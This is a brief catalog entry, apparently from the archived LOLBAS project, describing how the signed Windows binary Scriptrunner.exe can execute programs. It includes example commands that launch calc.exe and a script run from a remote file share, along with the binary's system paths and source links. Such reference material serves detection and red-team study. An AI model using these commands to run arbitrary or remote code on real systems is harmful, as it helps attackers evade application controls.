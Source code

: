 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Scriptrunner.exe

* Functions: Execute

```
Scriptrunner.exe -appvscript calc.exe   

ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"   
```

Acknowledgements:
* Nick Tyrer - @NickTyrer

Code sample:
* 

Resources:
* https://twitter.com/KyleHanslovan/status/914800377580503040
* https://twitter.com/NickTyrer/status/914234924655312896
* https://github.com/MoooKitty/Code-Execution

Full path:
```
c:\windows\system32\scriptrunner.exe
c:\windows\sysWOW64\scriptrunner.exe
```

Notes:
 
